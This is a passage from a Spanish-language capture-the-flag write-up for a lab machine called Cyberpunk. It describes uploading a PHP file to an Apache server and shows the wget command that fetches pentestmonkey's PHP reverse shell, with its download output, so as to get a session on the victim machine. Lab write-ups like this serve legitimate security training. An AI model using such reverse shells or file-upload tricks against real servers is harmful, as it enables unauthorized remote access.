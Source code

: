 <p align="center">
<img src="/assets/images/THL-writeup-cyberpunk/Captura4.png">
</p>

Ahí está.

Entonces, la idea será subir un archivo que interprete el **servidor Apache**, que normalmente puede interpretar el **lenguaje PHP**, por lo que vamos a usar una **Reverse Shell de PHP** para obtener una sesión de la máquina víctima.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="PHP">Utilizando Reverse Shell de PHP de pentestmonkey para Obtener Sesión de la Máquina Víctima</h2>

Vamos a utilizar la **Reverse Shell** de **pentestmonkey**. 

La puedes obtener del siguiente link:
* <a href="https://github.com/pentestmonkey/php-reverse-shell" target="_blank">Repositorio de pentestmonkey: php-reverse-shell</a>

La descargamos con **wget**:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
--2025-02-21 12:15:51--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 5491 (5.4K) [text/plain]
Grabando a: «php-reverse-shell.php»
.
php-reverse-shell.php        100%[===========================================>]   5.36K  --.-KB/s    en 0s      
.
2025-02-21 12:15:51 (83.2 MB/s) - «php-reverse-shell.php» guardado [5491/5491]
```
